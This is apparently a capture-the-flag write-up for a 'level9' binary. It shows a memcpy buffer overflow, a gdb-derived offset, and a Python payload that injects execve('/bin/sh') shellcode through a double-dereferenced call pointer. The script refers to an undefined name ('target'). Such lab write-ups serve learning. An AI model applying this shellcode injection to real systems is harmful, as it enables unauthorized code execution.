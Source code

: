 This binary doesnt seems to do much.
But we can make it segfault on a memcpy:
```
ltrace ./level9 $(python -c 'print "A"*150')
```

We also notice a call to *edx at 0x08048693
The line 
`=> 0x08048682 <+142>:	mov    (%eax),%edx`
show use that the value pointed to by eax will be stored in edx.
After the segfault, gdb will show us that eax contain a part of our string:
```
(gdb) info reg eax
eax            0x41414141	1094795585
```

To see the exact offset, we can use the pattern tool from metasploit, and we get an offset of 108.
eax will get derefferenced twice and put in edx, that will get loaded into eip by `call`
Since we controle eax, we have to make it point to a place holding the address of our shellcode.
We can see the address of the memcpy, which will be the begining of our input,
so we build our shellcode as follow :

`[ptr to shellcode] + [shellcode] + padding + [ptr to "ptr to shellcode"]`

Aka:
```
offset = 108
shellcode = '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'
targetA = "\x0c\xa0\x04\x08"
targetB = "\x10\xa0\x04\x08"
print targetB + shellcode + "A" * (offset - len(shellcode) - len(target)) + targetA
```

And simply:
`./level9 $(python /tmp/shellcode.py)`

(I reused the shellcode from lvl2 because looking at the over levels I think I overkilled level2)
